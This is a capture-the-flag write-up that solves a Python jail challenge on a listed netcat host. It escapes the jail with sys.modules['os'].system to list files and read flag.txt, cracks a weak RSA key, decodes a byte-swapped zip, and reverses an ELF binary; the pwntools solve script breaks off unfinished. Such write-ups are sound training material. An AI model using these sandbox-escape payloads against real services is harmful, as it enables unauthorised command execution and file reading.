

# 4- Queen
```
Medium: 600pts
```
## Description
```
The queen has been taken prisoner. They say this is the best jail ever built? Will you be able to break in?
nc 51.38.37.81 7002
Flag: CTF_*
```

> This challenge is obviously a python jail.
We'll take a look at the critical modules that can help perform system functions. Let's start by seeing if a module(sys) is already imported.

`>>> print sys`


>Bingooooooo sys is already there 🥳. What's a next?? 😏... Execute system command.
So we will look for the os module. Let's use `dir()` method to return a list of valid attributes of sys.

`>>> print dir(sys)`

```
['__displayhook__', '__doc__', '__excepthook__', '__name__', '__package__', '__stderr__', '__stdin__', '__stdout__', '_clear_type_cache', '_current_frames', '_getframe', '_git', 'api_version', 'argv', 'builtin_module_names', 'byteorder', 'call_tracing', 'callstats', 'copyright', 'displayhook', 'dont_write_bytecode', 'exc_clear', 'exc_info', 'exc_type', 'excepthook', 'exec_prefix', 'executable', 'exit', 'flags', 'float_info', 'float_repr_style', 'getcheckinterval', 'getdefaultencoding', 'getdlopenflags', 'getfilesystemencoding', 'getprofile', 'getrecursionlimit', 'getrefcount', 'getsizeof', 'gettrace', 'hexversion', 'long_info', 'maxint', 'maxsize', 'maxunicode', 'meta_path', 'modules', 'path', 'path_hooks', 'path_importer_cache', 'platform', 'prefix', 'py3kwarning', 'setcheckinterval', 'setdlopenflags', 'setprofile', 'setrecursionlimit', 'settrace', 'stderr', 'stdin', 'stdout', 'subversion', 'version', 'version_info', 'warnoptions']
```

>Oh sys has modules as attribute. Make a print on it.

`>>> print sys.modules`

```
{'copy_reg': <module 'copy_reg' from '/usr/local/lib/python2.7/copy_reg.py'>, 'sre_compile': <module 'sre_compile' from '/usr/local/lib/python2.7/sre_compile.py'>, '_sre': <module '_sre' (built-in)>, 'encodings': <module 'encodings' from '/usr/local/lib/python2.7/encodings/__init__.py'>, 'site': <module 'site' from '/usr/local/lib/python2.7/site.py'>, '__builtin__': <module '?' (built-in)>, 'sysconfig': <module 'sysconfig' from '/usr/local/lib/python2.7/sysconfig.py'>, '__main__': <module '__main__' from 'chal.py'>, 'encodings.encodings': None, 'abc': <module 'abc' from '/usr/local/lib/python2.7/abc.py'>, 'posixpath': <module 'posixpath' from '/usr/local/lib/python2.7/posixpath.py'>, '_weakrefset': <module '_weakrefset' from '/usr/local/lib/python2.7/_weakrefset.py'>, 'errno': <module 'errno' (built-in)>, 'encodings.codecs': None, 'sre_constants': <module 'sre_constants' from '/usr/local/lib/python2.7/sre_constants.py'>, 're': <module 're' from '/usr/local/lib/python2.7/re.py'>, '_abcoll': <module '_abcoll' from '/usr/local/lib/python2.7/_abcoll.py'>, 'types': <module 'types' from '/usr/local/lib/python2.7/types.py'>, '_codecs': <module '_codecs' (built-in)>, 'encodings.__builtin__': None, '_warnings': <module '_warnings' (built-in)>, 'genericpath': <module 'genericpath' from '/usr/local/lib/python2.7/genericpath.py'>, 'stat': <module 'stat' from '/usr/local/lib/python2.7/stat.py'>, 'zipimport': <module 'zipimport' (built-in)>, '_sysconfigdata': <module '_sysconfigdata' from '/usr/local/lib/python2.7/_sysconfigdata.py'>, 'warnings': <module 'warnings' from '/usr/local/lib/python2.7/warnings.py'>, 'UserDict': <module 'UserDict' from '/usr/local/lib/python2.7/UserDict.py'>, 'encodings.utf_8': <module 'encodings.utf_8' from '/usr/local/lib/python2.7/encodings/utf_8.py'>, 'sys': <module 'sys' (built-in)>, 'codecs': <module 'codecs' from '/usr/local/lib/python2.7/codecs.py'>, 'os.path': <module 'posixpath' from '/usr/local/lib/python2.7/posixpath.py'>, '_locale': <module '_locale' from '/usr/local/lib/python2.7/lib-dynload/_locale.so'>, 'signal': <module 'signal' (built-in)>, 'traceback': <module 'traceback' from '/usr/local/lib/python2.7/traceback.py'>, 'linecache': <module 'linecache' from '/usr/local/lib/python2.7/linecache.py'>, 'posix': <module 'posix' (built-in)>, 'encodings.aliases': <module 'encodings.aliases' from '/usr/local/lib/python2.7/encodings/aliases.py'>, 'exceptions': <module 'exceptions' (built-in)>, 'sre_parse': <module 'sre_parse' from '/usr/local/lib/python2.7/sre_parse.py'>, 'os': <module 'os' from '/usr/local/lib/python2.7/os.py'>, '_weakref': <module '_weakref' (built-in)>}
```

It's a dict and os is in it. Let's use it to execute system comand like this to list our current directory:


`>>> print sys.modules['os'].system('ls -Ral .')`

```
.:
total 28
drwxr-x--- 1 root ecowas 4096 Aug  3 20:40 .
drwxr-xr-x 1 root root   4096 Aug  3 22:51 ..
-rwxr-x--- 1 root ecowas 8916 Aug  3 20:39 chal.py
-rwxr----- 1 root ecowas   21 Aug  3 19:48 flag.txt
-rwxr-x--- 1 root ecowas   53 Aug  3 20:02 start.sh
0
```

>The files that interest us are: flag.txt and the source code chall.py. Let's display them.

`>>> print sys.modules['os'].system('cat flag.txt')`

```
Check the source code
```

>Zutttt nothing there. Next.... the source code

`print sys.modules['os'].system('cat flag.txt')`

>The source code is very long. We have two interesting functions: `artefacts()` and `crypto_chall()`.

```python
def artefacts():
    file_data = "4b500403000a00000000a88c55030000000000000000000000000004001c65722f7654550009b803eac68062eac775620b780100e8040003040003e800004b500403001400090008a86155038fb96d9b0c2a0000410000000009001c65722f7672646d61556109540300c66662eac67662ea7875000b040103e80000e80400030a001a8e7e9b1cd57529ea02c00df3e5b2c685542aaac75310314097294c9f8dba4f62b6a03295e179a655a3d3ad6b2cb675759c7e9966c52110a3d1b43a977ab403e3983581902c925b0323368f7c3da6fa849fb6ecff246755d0270476bdd40a3aeb2da9ddbb8bfa58768282b91d1affd8cce6f44dc2885881ed8303377bb38d6cbb688b9407ba0c48ac8558dc0ef0d26ed5183b75ff3c14b49e46855a333bf0f5b34cf7277a614f73f3d0c5f9764e807ee7a8bceeeef584477d5dba72bd77a7a6f059cf5c3bd175ff8c5463611f9b7784b049b95d638a8b01ed4d7d0a78b6740959e765f3c81512ee9b1f50e4cadbcb57522abbbe45aea3d7d55710887b110c4b4dc7dd617cd7139252e74a22d2eeed56afb60ed2d923c04e501c6e0479c6f312963b81d770e7b46ca668f7709cdd90bbdd849c3e869776747b084a1df7e8c5437c018abb1f9c25a159a7b0dbcfb4a74f8bb1b941d4f8dc4d8889e40a4e243228000bad0f78ad7df72ffb67d9a30ef8c8c494c1b11f11ede6d34dec106644f7936a8ef359c7983dd82b27044c444a4733e2bb670a09a42e7e230a5ca82988a92971e74ef226676a73cf5d3eab69c7a39109612fafb058d50255e1295b0ee98f04f90fe38c00fe10ab6378a18fec8019f6c36d8b3f20337a23fce329ff3a5a8dbdf0a3463d60014fd8a22182dcc3c6eb2e1e0f876e737c6bf81ed05ee718fc144ac70f5552c41181b364c8b44b8f145da5e1e8b7f8b1f4341ac02c5ffa0ca5334b9285f61f05736879a7f4a73c516005b295037f856bd479b7eb12e23b668d7cc09772cefcdfebee3fd8ec89e579852a748cf074fe2545636de8e3cfa9924cd96ba71df593cec35760854d07dbc23f5005bbf4c121ea72e003a683761565c82625e8363fad5937ee0a112415bd499192642bf2c4becebce0d67a9ad01c559fe8020da35fb7f0dbce69223027c1b68112909a1616721701865387de31f09ef53bff3390974225f252211eeba8c3668ea2000ad81746663f4e85314fcc3932155f7ce14a155174ec839ce003f2007bf85907a2b0d797d50a86b449645bc1657ead5ceb63331682e378209d2d754cc742cc03bc714382bd87f2999cf2d97c44bb352ff22ff6bdb6cdfce8a3a2807433731ee89cb8f3f67bf82a76b219dbde982b4523c1281a989fd31a0e1550012c0d3c2f3ac40818735d0119ecfcdfab5b5da7045be65a1cccb5f05303d9c45d4192c1c0584c8c83a9180c811284a8ab680b5f1ff440afb169a5e0737c801f9c062ae74214fbd585317cde97744e34a7cea8ce4019c263c1b7978844274a41e10dfacc8d2a0e982278799d6c1e04994b559da3c785ba3d477f03e302366c919bdeee30342b64668f23f5034bbd1b0a28bce4576b1930d253af7b5804344e5402a80c15a4273fc32608fa087ddbc7d1678b9ca4d8cbdc443f41cc4f8af9aecc926b2af787e9c5f3ef41dd69ba8a0cff103d9c7feb16c3d87e4917f99a6625c5503443afefa8d0e2deda3f34aec4fbc934070899bfb0f06c82b3dccc6769bcc461ac24ae1d88495df62387c99ea41fc168ba769d415c411ad71a663515a30f747726270693764719a2a57c5a4003531b1cceae93f7fb288dc5d8226da3e1aa95f8eb0d2b37c9e2e8a4845e1cdae54b4fef871c2957a2f80103ce7b84eca0a2921b7c4ddaad2cce90d9b5c5d633162a829f5b0bfbbaa00b8587dce3555fc4a9d94c3be79381a4bcb00f672855de59249f75738a6cea71978f922565a0d230245e2966f2782013f8cefd86fecf373ca6407f0e5255c4aba659a7cf6cfb0e4c4565f15081c6d3b00d1dd8d23cf642a7f350cc6aeb83b13967d11e7514dce5309aaddc2c46dd6e3289780a8ebc9ad048214349fbe7f242e6c10f22bcb39f9747be57f062d9ce3c5dcbd82a166ab13dbbdfa49d9194420a7ea861f1eee4906cf403039717cc0cdc098ea5f192a575735b3d6d4602f0376820c5de87d14a35e6c3963c7c923f349f566a74c969878af5966129f9810e9ceb372d853e6c66e4b0c08dde03921ea99d1d7dddf07ad86e20f8f0d96e4a449377d20259115c784fa7db83bfe1631335655dd588e9daf9de26835b9dccd5cc81e0f1ae0e717aff991a29c024676571b17d1d260d975137d34a69a2dcbddbad9da3591c13bd0b7096bb82a3b21dac11822bd9bf52175f3ac55c7572c7a0911c7058182672518ab870bcb256148894e2982026a60af9cbd5a4876eacbf4b2dfd5297dce93ee609b37c676d09b00b97c2e057e682aff9016345f59d27a14bbd7f3d6600cd4292c2a1804f6ff1c41709f7b2b503a82f506150bc7e81ce8a5a28e62a302207294a4fb439daf0efe83c99c9fe8a1f04d3a849eb7178c3124fa398b35e07701983c97842db045300139166eaa66239aa512cafb4de50dc86c208352dfc7b53249eacab80c63e2f9bdfd47eed220e5a92fcb466ea9a083a685201b55145a395dce765b1a4ef7eb4f23db217ec3c71bb4e5feadea25617dc4def4c6b0a252bf515b44b05a6421d61da22072d4f7dea6b3c861272e9850aff3ed28aa6cf8e0e5e7fe6bae3b083c25c77e22219787cabe10253e9565b6d23231107f0d6804241b69f4833bef82b422995c1aff6369ed43cc143febd11895a918588b6b283d0104484888f9ee26d804dd9804d3d93fb6e0e93c4f45e247abff1b3f263019fb4896213daa51732806436fc4dfde47f948cb78f7dee1a29c9a1adec53483f113b9518dd9d17f7bf748273f9e627dd1309bdda6d66378fa68c29eea533922b13eac8cb6f7ea24a96bf2ec1d231bce052c5f7448784d93ab6d7e79979a6d085d0dda7b787adf5ccf890cc4f0c062ae648025fc0ed0308ab127c68a77838b1c3a352f3d66ea0c807cbea7aa5fa9b2b6c481c296c7a4729f64ea4b97337e2074b13ce5456f1cf94b72e88cd2c1b97ace56fc6f2e79dde463e887950ca30c5d59db6ed8270c000e4d9948350b649fb5b774d9fa424b9436bbb09668f6934ccc413b1d5b7fe8583562082808b26c1e33e6441883ab88d96cd41acc63017383dc2bec4f0b1156245839dfa2d24039257d4255deec15d1093718760511f3f401a5b9ba13b62e68cb96443ec3d10fdef37e77f3d2305acc37c45e1908e276342e99574c0d557529b6b35e081d1f5e495adf81995a6541c593a3fe0f8ebfa250ae66821990b230b0588dc2d832ddce5f37d48640f85a044f958a1a292b00e372e2b75a605ceae92b2bccdad672ef862bc03a86d2920be3ec7b32abf7c3dec7fda21b0993685dce7fa45b9cb18440647c63d6b037b5314ae3d3c812ec853f339992f30f80d0386853cfb4d7079a66f2d2d1d7e011c4e065f3827373e86088f6ec18b801253a51821edcd4dc4b5c1629b4e65ebd6474e908cb413ee49ea02abec6278aa1460b3f3713e65b67345bbd6f5832f7b6ff81d704bef89589071918cbf0b8ba3aba348fca35ce4e7c59b87fd4c2f175e313ded194ca8c9cf36e7d1d2fd1380faddcff836ff91ac7a0910ff99a9d30548237a13a0c04f9977a4fd236bc862c3cf8a18a6b96d9a0c3a973137d492f68a3e2e8a9a7cfee91a96b642df97f6dba2efc1cb8b935870d5e9e66d508d58520732f902fce1a6370617ff09eebc6f11b8943fdac57484931c1eb8e37d8de8b28d0ac9afcf7f0f49a7c9fbb2f1b4a88532c1e487c8f13ec6b1102b1f643b165b3c62cc4f65b2faf4a68149ad4f9dbd2a835553b32ef0bec81ec752ae863a6ee8f77e8c38c3378293d43ca51dbfe096cd07f030983c6d9155c47389b52fd8c88a327aec58e0fff05df8b8f2e7af044af8102c7a41190955d4b67e478ce742651dec28b6c5824845de7908b313da4d35753f5267624b501e2c98a6ab0deb327dc506448d4044632412ebe29240b288581c13f0a97f43360d622ff6ddab1eb8048ac5883e2524e4a518ac2738104987a7f680d5d1461eb4a974ec9b1ed5c6628737860ffdc6cd8a9dea383722491084665f92b1ea5339cf579e431c3d66e8a23ea81def1f84cc0bb8d595242a891b7550c5dbbfe61e216408a8841bc23e2dd64d8c576ed42bf5119fef8bbf0e06cea738440ff7b079d8fc3c1c6267c3435c508f360e2e324137f3d6e00974256ee43b43c1f714ed7b7ce339f6392c37dc242c5569d7f6d9bf68e78d8dba532be8f398ef19c4602d1f64b4b559a1f674e26261f2e3639965c24b04a47bf7e84da4bcf1c3a36bdbe9dc9a93134b03799c95f61d28cb33df8201ad52f33290f26a8dea0248c32a3b36b91800c269abdd43f61ac1dc162d9de6dd8a954de68aa95f7d5bcb7a97533463fc7e3825e577df63064752ba0fc1364fab8b94215c9fd3ed5df5684e233eb6d5dae6b6a63473937fc5497f135033074bb9089b8f2a6d000c000000415000034b0a04090000008c0003a82755b9e7209a00001400000014001c0072007665692f736e7274637569746e6f2e737874557409540300c6b862eac6ba62ea7875000b040103e80000e8040003bc00db584727bb671639246684c9daa5486dd514a10535be6e1b6983e8e7880b506d074b2708b9e7209a0000140000005000014b1e020a03000000008c0003a8005500000000000000000000040018000000000000001000ed000041000072007665552f05540300c6b862ea7875000b040103e80000e80400035000014b1e02140309000800610003a8b9559b8f2a6d000c00000041090018000000000000000000ed003e81000072007665642f6172616d545500056603eac675620b780100e8040003040003e800004b500201031e000a00090000a88c5503e7279ab9002000000014000000140018000000000001000081a40cbb000065722f766e697473757274636f69736e742e747854550005b803eac675620b780100e8040003040003e800004b500605000000000003000300f300000d3900000000"
```


```python
def crypto_chal():
    n = 494279608440695570639981978809844608214318222365628813777065280391690103892237002704549292365337868584702001733363789653705687877309675771132795281437822306877440397151878153627949429176628562246073566440415464489851263670494902374001740163130983510376266128382149012908751502104250906116015342174289348511

    c = 160221409673316615324423334469429535855591013576205369356749542197670751984092792263052833543081323204720123145803843873579264306291957064789007326322698311359805706103152003287556158600740920065430188973158226644521325608339587546314954207203261892828902291188958835894868801950073165216416584520401713302

    e = 65537

```

>At first glance, this jail brings us to yet another type of challenge. An RSA crack and a hex string.
>Let's break the RSA first


- Factorize with <a href="http://factordb.com/index.php?query=494279608440695570639981978809844608214318222365628813777065280391690103892237002704549292365337868584702001733363789653705687877309675771132795281437822306877440397151878153627949429176628562246073566440415464489851263670494902374001740163130983510376266128382149012908751502104250906116015342174289348511">factordb</a>
- Decode the encrypted message with <a href="https://www.dcode.fr/chiffre-rsa">dcode</a>, because we have all the key.

>With factodb we get `p=714223` and `q=692052214001363118577785899935796814460355130492337566526232395752713233671048121811464055855577135691096480697714564853982142660359125610814542910880526539858616142509941787968112801151221064353953270113697632937963722353515501984676690841839290404224263470067680560425457458110773394466455633848657`.

It is now to decode.



Let's save this decoded message:
`Password: S057r0NGbr07213843213HDEZDhd`

>Now back to the second function. And decode variable file_data with cyberchef

The result


Let's save again this output in a file. Now what is the type of this file? Let's check.

`$ file data`

```
data: data
```

>But what is this thing?
A bit of google and we find: **"Thus, when a ZIP file is viewed in a text editor the first two bytes of the file are usually 'PK'"**. Yes i now, here we have KP instead of PK. Maybe a weird cipher? 
Like, taking two characters in succession and inverting them? it sounds crazy, but why not try to validate or eliminate our hypothesis?


>A little python code to help us and save this as `script.py`

```python
file_data = "4b500403000a00000000a88c55030000000000000000000000000004001c65722f7654550009b803eac68062eac775620b780100e8040003040003e800004b500403001400090008a86155038fb96d9b0c2a0000410000000009001c65722f7672646d61556109540300c66662eac67662ea7875000b040103e80000e80400030a001a8e7e9b1cd57529ea02c00df3e5b2c685542aaac75310314097294c9f8dba4f62b6a03295e179a655a3d3ad6b2cb675759c7e9966c52110a3d1b43a977ab403e3983581902c925b0323368f7c3da6fa849fb6ecff246755d0270476bdd40a3aeb2da9ddbb8bfa58768282b91d1affd8cce6f44dc2885881ed8303377bb38d6cbb688b9407ba0c48ac8558dc0ef0d26ed5183b75ff3c14b49e46855a333bf0f5b34cf7277a614f73f3d0c5f9764e807ee7a8bceeeef584477d5dba72bd77a7a6f059cf5c3bd175ff8c5463611f9b7784b049b95d638a8b01ed4d7d0a78b6740959e765f3c81512ee9b1f50e4cadbcb57522abbbe45aea3d7d55710887b110c4b4dc7dd617cd7139252e74a22d2eeed56afb60ed2d923c04e501c6e0479c6f312963b81d770e7b46ca668f7709cdd90bbdd849c3e869776747b084a1df7e8c5437c018abb1f9c25a159a7b0dbcfb4a74f8bb1b941d4f8dc4d8889e40a4e243228000bad0f78ad7df72ffb67d9a30ef8c8c494c1b11f11ede6d34dec106644f7936a8ef359c7983dd82b27044c444a4733e2bb670a09a42e7e230a5ca82988a92971e74ef226676a73cf5d3eab69c7a39109612fafb058d50255e1295b0ee98f04f90fe38c00fe10ab6378a18fec8019f6c36d8b3f20337a23fce329ff3a5a8dbdf0a3463d60014fd8a22182dcc3c6eb2e1e0f876e737c6bf81ed05ee718fc144ac70f5552c41181b364c8b44b8f145da5e1e8b7f8b1f4341ac02c5ffa0ca5334b9285f61f05736879a7f4a73c516005b295037f856bd479b7eb12e23b668d7cc09772cefcdfebee3fd8ec89e579852a748cf074fe2545636de8e3cfa9924cd96ba71df593cec35760854d07dbc23f5005bbf4c121ea72e003a683761565c82625e8363fad5937ee0a112415bd499192642bf2c4becebce0d67a9ad01c559fe8020da35fb7f0dbce69223027c1b68112909a1616721701865387de31f09ef53bff3390974225f252211eeba8c3668ea2000ad81746663f4e85314fcc3932155f7ce14a155174ec839ce003f2007bf85907a2b0d797d50a86b449645bc1657ead5ceb63331682e378209d2d754cc742cc03bc714382bd87f2999cf2d97c44bb352ff22ff6bdb6cdfce8a3a2807433731ee89cb8f3f67bf82a76b219dbde982b4523c1281a989fd31a0e1550012c0d3c2f3ac40818735d0119ecfcdfab5b5da7045be65a1cccb5f05303d9c45d4192c1c0584c8c83a9180c811284a8ab680b5f1ff440afb169a5e0737c801f9c062ae74214fbd585317cde97744e34a7cea8ce4019c263c1b7978844274a41e10dfacc8d2a0e982278799d6c1e04994b559da3c785ba3d477f03e302366c919bdeee30342b64668f23f5034bbd1b0a28bce4576b1930d253af7b5804344e5402a80c15a4273fc32608fa087ddbc7d1678b9ca4d8cbdc443f41cc4f8af9aecc926b2af787e9c5f3ef41dd69ba8a0cff103d9c7feb16c3d87e4917f99a6625c5503443afefa8d0e2deda3f34aec4fbc934070899bfb0f06c82b3dccc6769bcc461ac24ae1d88495df62387c99ea41fc168ba769d415c411ad71a663515a30f747726270693764719a2a57c5a4003531b1cceae93f7fb288dc5d8226da3e1aa95f8eb0d2b37c9e2e8a4845e1cdae54b4fef871c2957a2f80103ce7b84eca0a2921b7c4ddaad2cce90d9b5c5d633162a829f5b0bfbbaa00b8587dce3555fc4a9d94c3be79381a4bcb00f672855de59249f75738a6cea71978f922565a0d230245e2966f2782013f8cefd86fecf373ca6407f0e5255c4aba659a7cf6cfb0e4c4565f15081c6d3b00d1dd8d23cf642a7f350cc6aeb83b13967d11e7514dce5309aaddc2c46dd6e3289780a8ebc9ad048214349fbe7f242e6c10f22bcb39f9747be57f062d9ce3c5dcbd82a166ab13dbbdfa49d9194420a7ea861f1eee4906cf403039717cc0cdc098ea5f192a575735b3d6d4602f0376820c5de87d14a35e6c3963c7c923f349f566a74c969878af5966129f9810e9ceb372d853e6c66e4b0c08dde03921ea99d1d7dddf07ad86e20f8f0d96e4a449377d20259115c784fa7db83bfe1631335655dd588e9daf9de26835b9dccd5cc81e0f1ae0e717aff991a29c024676571b17d1d260d975137d34a69a2dcbddbad9da3591c13bd0b7096bb82a3b21dac11822bd9bf52175f3ac55c7572c7a0911c7058182672518ab870bcb256148894e2982026a60af9cbd5a4876eacbf4b2dfd5297dce93ee609b37c676d09b00b97c2e057e682aff9016345f59d27a14bbd7f3d6600cd4292c2a1804f6ff1c41709f7b2b503a82f506150bc7e81ce8a5a28e62a302207294a4fb439daf0efe83c99c9fe8a1f04d3a849eb7178c3124fa398b35e07701983c97842db045300139166eaa66239aa512cafb4de50dc86c208352dfc7b53249eacab80c63e2f9bdfd47eed220e5a92fcb466ea9a083a685201b55145a395dce765b1a4ef7eb4f23db217ec3c71bb4e5feadea25617dc4def4c6b0a252bf515b44b05a6421d61da22072d4f7dea6b3c861272e9850aff3ed28aa6cf8e0e5e7fe6bae3b083c25c77e22219787cabe10253e9565b6d23231107f0d6804241b69f4833bef82b422995c1aff6369ed43cc143febd11895a918588b6b283d0104484888f9ee26d804dd9804d3d93fb6e0e93c4f45e247abff1b3f263019fb4896213daa51732806436fc4dfde47f948cb78f7dee1a29c9a1adec53483f113b9518dd9d17f7bf748273f9e627dd1309bdda6d66378fa68c29eea533922b13eac8cb6f7ea24a96bf2ec1d231bce052c5f7448784d93ab6d7e79979a6d085d0dda7b787adf5ccf890cc4f0c062ae648025fc0ed0308ab127c68a77838b1c3a352f3d66ea0c807cbea7aa5fa9b2b6c481c296c7a4729f64ea4b97337e2074b13ce5456f1cf94b72e88cd2c1b97ace56fc6f2e79dde463e887950ca30c5d59db6ed8270c000e4d9948350b649fb5b774d9fa424b9436bbb09668f6934ccc413b1d5b7fe8583562082808b26c1e33e6441883ab88d96cd41acc63017383dc2bec4f0b1156245839dfa2d24039257d4255deec15d1093718760511f3f401a5b9ba13b62e68cb96443ec3d10fdef37e77f3d2305acc37c45e1908e276342e99574c0d557529b6b35e081d1f5e495adf81995a6541c593a3fe0f8ebfa250ae66821990b230b0588dc2d832ddce5f37d48640f85a044f958a1a292b00e372e2b75a605ceae92b2bccdad672ef862bc03a86d2920be3ec7b32abf7c3dec7fda21b0993685dce7fa45b9cb18440647c63d6b037b5314ae3d3c812ec853f339992f30f80d0386853cfb4d7079a66f2d2d1d7e011c4e065f3827373e86088f6ec18b801253a51821edcd4dc4b5c1629b4e65ebd6474e908cb413ee49ea02abec6278aa1460b3f3713e65b67345bbd6f5832f7b6ff81d704bef89589071918cbf0b8ba3aba348fca35ce4e7c59b87fd4c2f175e313ded194ca8c9cf36e7d1d2fd1380faddcff836ff91ac7a0910ff99a9d30548237a13a0c04f9977a4fd236bc862c3cf8a18a6b96d9a0c3a973137d492f68a3e2e8a9a7cfee91a96b642df97f6dba2efc1cb8b935870d5e9e66d508d58520732f902fce1a6370617ff09eebc6f11b8943fdac57484931c1eb8e37d8de8b28d0ac9afcf7f0f49a7c9fbb2f1b4a88532c1e487c8f13ec6b1102b1f643b165b3c62cc4f65b2faf4a68149ad4f9dbd2a835553b32ef0bec81ec752ae863a6ee8f77e8c38c3378293d43ca51dbfe096cd07f030983c6d9155c47389b52fd8c88a327aec58e0fff05df8b8f2e7af044af8102c7a41190955d4b67e478ce742651dec28b6c5824845de7908b313da4d35753f5267624b501e2c98a6ab0deb327dc506448d4044632412ebe29240b288581c13f0a97f43360d622ff6ddab1eb8048ac5883e2524e4a518ac2738104987a7f680d5d1461eb4a974ec9b1ed5c6628737860ffdc6cd8a9dea383722491084665f92b1ea5339cf579e431c3d66e8a23ea81def1f84cc0bb8d595242a891b7550c5dbbfe61e216408a8841bc23e2dd64d8c576ed42bf5119fef8bbf0e06cea738440ff7b079d8fc3c1c6267c3435c508f360e2e324137f3d6e00974256ee43b43c1f714ed7b7ce339f6392c37dc242c5569d7f6d9bf68e78d8dba532be8f398ef19c4602d1f64b4b559a1f674e26261f2e3639965c24b04a47bf7e84da4bcf1c3a36bdbe9dc9a93134b03799c95f61d28cb33df8201ad52f33290f26a8dea0248c32a3b36b91800c269abdd43f61ac1dc162d9de6dd8a954de68aa95f7d5bcb7a97533463fc7e3825e577df63064752ba0fc1364fab8b94215c9fd3ed5df5684e233eb6d5dae6b6a63473937fc5497f135033074bb9089b8f2a6d000c000000415000034b0a04090000008c0003a82755b9e7209a00001400000014001c0072007665692f736e7274637569746e6f2e737874557409540300c6b862eac6ba62ea7875000b040103e80000e8040003bc00db584727bb671639246684c9daa5486dd514a10535be6e1b6983e8e7880b506d074b2708b9e7209a0000140000005000014b1e020a03000000008c0003a8005500000000000000000000040018000000000000001000ed000041000072007665552f05540300c6b862ea7875000b040103e80000e80400035000014b1e02140309000800610003a8b9559b8f2a6d000c00000041090018000000000000000000ed003e81000072007665642f6172616d545500056603eac675620b780100e8040003040003e800004b500201031e000a00090000a88c5503e7279ab9002000000014000000140018000000000001000081a40cbb000065722f766e697473757274636f69736e742e747854550005b803eac675620b780100e8040003040003e800004b500605000000000003000300f300000d3900000000"
a,b,tmp="","",""
print(len(file_data))
for i in range(0,len(file_data),2):
    a=file_data[i:i+2]
    tmp=file_data[i+2:i+4]
    b=a
    a=tmp
    print(a+b)
```

>Now test our crazy hypothesis
```
$ ./script.py > temp
$ awk 'NR%2==0' temp > tmp
$ python3 -m hexdump --restore tmp > output
$ file output
output: Zip archive data, at least v1.0 to extract
```

>Finally something drinkable and understandable. But when trying to open it, it asks us for a password. EUhhhhh 🤔🤔🤔 Ah yeah we had a password earlier. Let's try to open it with.
>It works. 

>😭 Another challenge again... We have two files.

- drama
- instructions.txt

>The content of the files

`$ cat instructions.txt`

```
nc 51.38.37.81 4003
```
`$ file drama`

```
drama: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=1510aacdb0bc2ffc080cff074af34bf63a724816, for GNU/Linux 3.2.0, not stripped
```

>We have a binary file as well as an nc in order to solve the challenge and possibly have the flag.
>Our first goal will be to see how the binary works. For this purpose, we will use ghidra: **"Ghidra is free reverse-engineered software developed by the NSA. Its graphical interface integrates a disassembler and a decompiler in order to analyze binary files"**

>By analyzing the functions, 4 are interesting apart from the main:

- gen_magic 

```c

ulong gen_magic(int param_1,int param_2)

{
  int iVar1;
  uint uVar2;
  
  iVar1 = rand();
  uVar2 = param_1 + iVar1 % ((param_2 - param_1) + 1);
  printf("%d\n",(ulong)uVar2);
  return (ulong)uVar2;
}

```

- checking

```c
undefined8 checking(uint param_1)

{
  int iVar1;
  int local_14;
  uint local_10;
  int local_c;
  
  local_c = 1;
  local_10 = 0;
  while ((int)local_10 <= (int)param_1) {
    __isoc99_scanf(&DAT_00102008,&local_14);
    iVar1 = D((ulong)param_1,(ulong)local_10,(ulong)local_10);
    if (iVar1 != local_14) {
      local_c = 0;
    }
    local_10 = local_10 + 1;
  }
  if (local_c == 1) {
    system("cat flag.txt");
  }
  return 0;
}
```

- D

```c
long D(uint param_1,uint param_2)

{
  long lVar1;
  long lVar2;
  long lVar3;
  
  lVar1 = f((ulong)param_1);
  lVar2 = f((ulong)param_2);
  lVar3 = f((ulong)(param_1 - param_2));
  return lVar1 / (lVar2 * lVar3);
}
```

- f

```c
long f(int param_1)

{
  int local_14;
  long local_10;
  
  local_10 = 1;
  local_14 = 2;
  while (local_14 <= param_1) {
    local_10 = local_14 * local_10;
    local_14 = local_14 + 1;
  }
  return local_10;
}
```

- main

```c
undefined8 main(void)

{
  uint uVar1;
  time_t tVar2;
  
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  tVar2 = time((time_t *)0x0);
  srand((uint)tVar2);
  uVar1 = gen_magic(0xf,0x14,0x14);
  checking((ulong)uVar1);
  return 0;
}

```
>At first glance, it's reverse. We will not dwell on all the functions and instructions, but only the interesting ones.
Once in the main, it initializes a time and a rand and calls the gen_magic function and puts it in the uVar1 variable. This function does not interest us.
Afterwards, the checking function is called with the uVar1 as argument as param_1. It initializes two variables: local_c which serves as a check to display the flag (if it is 0 or 1) and local_10 which is a while loop variable. This loop scanf param_1 time. In this loop, it uses the D function on a variable named uVar1 and compares it to our input.

>Without explaining too much the D and f functions which are clear, the goal will therefore be just to match our input to the output of the D function. To do this, we will rewrite these two functions and send their results remotely with the pwn module of python. But it should be remembered that an initialization is done. This is the output of the gen_magic function that is displayed to us when we run the file.

>Now here is our exploit.

```python
from pwn import *
def f (param1):
	local_10=1
	local_14=2
	while local_14<=param1:
		local_10 = local_14 * local_10
		local_14 = local_14 + 1
	return local_10
def D(param1,param2):
	return f(param1)//(f(param2)*f(param1-param2))
def checking (param1):
	d=[]
